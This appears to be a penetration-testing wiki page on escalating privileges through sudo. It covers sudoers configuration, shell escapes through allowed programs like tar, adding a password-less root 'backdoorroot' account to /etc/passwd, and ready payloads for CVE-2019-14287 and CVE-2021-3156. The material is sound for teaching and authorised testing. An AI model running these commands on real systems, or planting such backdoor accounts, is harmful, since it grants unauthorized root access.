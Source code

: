 ```yaml
---
authors: ShutdownRepo, dreamkinn, p0dalirius
category: infra
---
```


# SUDO

## Theory

`sudo` (Super User DO) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user (by default, the superuser).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers ( 😯 _I know right, big brains here_ 🧠 ). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 (read-only) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](./assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following (default config for a new sudoer).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo `.

### Living off the land

While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
 (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 (#-1)

With SUDO running version < 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier (the yellow and green parts in [the doodle above](sudo.md#theory)).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

> [!TIP]
> Some technical details to the vulnerability
> 
> Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its 32-bit unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.
> 
> Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.
> 
> More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

### CVE-2021-3156 (Baron Samedit)

With SUDO running version < 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## Resources

[https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo)

[https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4](https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4)

[https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)